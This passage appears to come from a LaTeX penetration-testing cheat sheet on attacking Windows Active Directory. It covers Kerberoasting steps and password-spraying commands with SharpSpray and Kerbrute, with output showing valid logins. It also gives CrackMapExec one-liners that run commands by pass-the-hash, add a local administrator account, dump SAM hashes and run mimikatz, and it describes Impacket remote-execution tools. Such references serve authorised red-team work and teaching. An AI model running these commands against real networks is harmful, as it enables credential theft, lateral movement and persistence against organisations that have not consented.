
\includegraphics[width=\linewidth]{kerberos.png}
\begin{enumerate}
    \item Find a user/service account (rather than a machine account) with a service principal name (SPN) set
    \item Request a service ticket with RC4\_HMAC\_MD5 encryption and extract a hash from it
    \item Attempt to crack the user’s password using hashcat or John the Ripper
\end{enumerate}

\includegraphics[width=\linewidth]{kerberos_tgt.png}


\subsubsection{SharpSpray}
\begin{lstlisting}
  SharpSpray.exe --Passwords Winter2020 --Sleep 15 --Delay 300

  [+] Successfully collected 42 usernames from Active Directory.
  [*] The Lockout Threshold for the current domain is 10.
  [*] The Min Password Length for the current domain is 10.
  [+] Successfully generated a list of 1 passwords.
  [*] Starting password spraying operations.
  [*] Using a delay of 300 milliseonds between attempts.
  [*] Using password ItsNotWinter!
  [+] Successfully authenticated with asmith::Winter2020
  [*] Completed all rounds with password Winter2020
  [*] Now the script will sleep for 15 minutes
\end{lstlisting}

\subsubsection{Kerbrute}
\begin{lstlisting}
  #If run from a non-domain-joined machine, you have to specify the DC
  ./kerbrute_linux_amd64 passwordspray --dc 10.0.0.1 -d corp.local domain_users.txt Winter2020

  2019/03/06 21:37:29 > Using KDC(s):
  2019/03/06 21:37:29 > 10.0.0.1:88
  2019/03/06 21:37:35 > [+] VALID LOGIN: asmith@corp.local:Winter2020
  2019/03/06 21:37:37 > [+] VALID LOGIN: tanderson@corp.local:Winter2020
  2019/03/06 21:37:37 > Done! Tested 2755 logins (2 successes) in 7.674 seconds
\end{lstlisting}


\subsubsection{CrackMapExec}
\begin{lstlisting}
  # Execute command on target machine as domain user with hash
  crackmapexec smb 10.1.2.3 -d DOMAIN -u user -H d7[CUT]8d -x 'net user csnc MyPW.123 /add && net localgroup Administrators csnc /add'
  # Dump SAM hashes on target machine as local administrator with hash
  crackmapexec smb 10.1.2.3 -u Administrator -H d7[CUT]8d --local-auth --sam
  # check if provided user is local admin on target machines and list users
  crackmapexec smb 10.1.2.0/24 -u user -p pass --local-auth --loggedon-users
  #  Execute mimikatz on target systems if authentication is successful
  crackmapexec smb targets.txt -u user -p pass -M mimikatz
  # Try all combinations of provides users and hashes
  crackmapexec smb 10.1.2.0/24 -u users.txt -H hashes.txt --local-auth
\end{lstlisting}

\subsubsection{Impacket}
Impacket is a collection of Python classes for working with network protocols. 
Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. 
Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. 
The library provides a set of tools as examples of what can be done within the context of this library.

\paragraph{psexec.py}
PSEXEC like functionality example using RemComSvc:\\
What is RemCom : RemCom is a small (10KB upx packed) remoteshell / telnet replacement that lets you execute processes on remote windows systems, copy files on remote systems, process there output and stream it back. 
It allows execution of remote shell commands directly with full interactive console without having to install any client software. 
On local machines it is also able to impersonate so can be used as a silent replacement for Runas command.

\paragraph{smbexec.py}
A similar approach to PSEXEC w/o using RemComSvc. The technique is described here. Our implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine does NOT have a writeable share available.

\paragraph{atexec.py}
This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.

\paragraph{wmiexec.py}
A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

\paragraph{GetADUsers.py}
This script will gather data about the domain's users and their corresponding email addresses. 
It will also include some extra information about last logon and last password set attributes.